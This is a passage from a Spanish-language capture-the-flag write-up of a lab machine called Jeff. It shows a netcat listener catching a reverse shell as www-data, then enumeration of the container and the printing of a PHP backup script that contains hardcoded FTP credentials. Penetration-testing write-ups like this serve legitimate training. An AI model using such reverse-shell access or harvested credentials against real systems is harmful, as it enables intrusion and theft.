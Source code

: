 ![](/assets/img/jeff/rev.png)
Despues de unos segundos nos llega la reverShell.
```bash
❯ nc -lvnp 443
listening on [any] 443 ...
connect to [10.8.47.45] from (UNKNOWN) [10.10.2.203] 60752
bash: cannot set terminal process group (1): Inappropriate ioctl for device
bash: no job control in this shell
www-data@Jeff:/var/www/html/wp-admin$ whoami
whoami
www-data
www-data@Jeff:/var/www/html/wp-admin$ 
```
## Movimiento Lateral
Si vemos la ip de la maquina a la que hemos ganado accesso, nos muestra una ip que es de un contenedor.
```bash
www-data@Jeff:/var/www/html/wp-admin$ hostname -I
172.20.0.6 
```
Enumerando un poco el sistema en el directorio /var/www/html hay un archivo ftp_backup.php.
```bash
www-data@Jeff:/var/www/html$ cat ftp_backup.php 
<?php
/* 
    Todo: I need to finish coding this database backup script.
	 also maybe convert it to a wordpress plugin in the future.
*/
$dbFile = 'db_backup/backup.sql';
$ftpFile = 'backup.sql';

$username = "backupmgr";
$password = "SuperS1ckP4ssw0rd123!";

$ftp = ftp_connect("172.20.0.1"); // todo, set up /etc/hosts for the container host

if( ! ftp_login($ftp, $username, $password) ){
    die("FTP Login failed.");
}

$msg = "Upload failed";
if (ftp_put($ftp, $remote_file, $file, FTP_ASCII)) {
    $msg = "$file was uploaded.\n";
}

echo $msg;
ftp_close($conn_id); 
www-data@Jeff:/var/www/html$ 
```